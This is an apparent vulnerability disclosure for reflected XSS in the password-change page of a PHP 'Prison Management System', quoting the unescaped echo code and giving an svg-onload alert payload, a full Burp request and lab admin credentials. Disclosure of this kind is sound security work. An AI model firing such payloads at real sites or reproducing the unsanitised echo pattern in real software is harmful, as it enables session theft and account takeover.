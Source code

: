 # Prison Management System
## XSS on `/Admin/changepassword.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Admin/login.php
admin
admin123
```

### Affected Page:

```
/Admin/changepassword.php
```

The parameter  `txtold_password`、`txtnew_password` and `txtconfirm_password` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Admin/changepassword.php
182 <input type="text" class="form-control" name="txtold_password" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtold_password']))?><?php echo $_POST['txtold_password']; ?>" >
186 <input type="password" class="form-control" name="txtnew_password" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtnew_password']))?><?php echo $_POST['txtnew_password']; ?>" >
190 <input type="password" class="form-control" name="txtconfirm_password" id="exampleInputPassword1" size="77" value="<?php if (isset($_POST['txtconfirm_password']))?><?php echo $_POST['txtconfirm_password']; ?>" >
```

### Proof of Concept:

Payload:

```
"><svg/onload=alert``>
```

Burp Request:

```
POST /Admin/changepassword.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 141
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Admin/changepassword.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=re6pj5dm375a34vsuggjn5p4j8
Connection: close

txtold_password=1"><svg/onload=alert`111`>&txtnew_password=2"><svg/onload=alert`222`>&txtconfirm_password=3"><svg/onload=alert`333`>&btnsave=
```

### Screenshot

![image-20240506134915672](./screenshot/image-20240506134915672.png)

![image-20240506134828534](./screenshot/image-20240506134828534.png)

![image-20240506134853589](./screenshot/image-20240506134853589.png)

